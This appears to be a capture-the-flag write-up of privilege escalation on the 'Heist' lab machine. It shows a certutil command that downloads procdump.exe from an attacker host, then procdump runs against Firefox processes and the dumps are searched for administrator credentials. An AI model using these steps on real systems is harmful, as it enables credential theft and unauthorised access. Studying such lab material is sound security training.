 # Privilege escalation to Administrator
## Firefox Credential files found 
Firefox Credential file found in  `C:\Users\Chase\AppData\Roaming\Mozilla\Firefox\Profiles\77nc64t5.default\key4.db`, which indicates that firefox process is owned by user `chase` and some  credentials in memory can be dumped via from firefox process.
![[Pasted image 20210712100645.png]]
## Firefox process found in processes list
Issuing command `Get-Process | where {$_.ProcessName -notlike "svchost*"} | ft ProcessName, Id` gave list of processes which included `firefox`.
![[Pasted image 20210712101521.png]]
## Getting memory dump of firefox processes via procdump utility
Transferred `procdump.exe` file to `Heist` machine using `Certutil` utility and command `certutil.exe -urlcache -f http://10.10.14.71:8000/procdump.exe procdump.exe`.
![[Pasted image 20210712104544.png]]
Knowing PID of firefox processes.
![[Pasted image 20210712104744.png]]
Dumping contents of all firefox processes using `.\procdump.exe -ma [PID]` command.
![[Pasted image 20210712105452.png]]
## Getting administrator credentials from dumps
Getting administrator credentials from dumps using `Select-String -Path .\*.dmp -Pattern 'username'` .
![[Pasted image 20210712110518.png]]
## Logging in with credentials got above as administrator
Logging in with credentials got above as administrator.
![[Pasted image 20210712110655.png]]

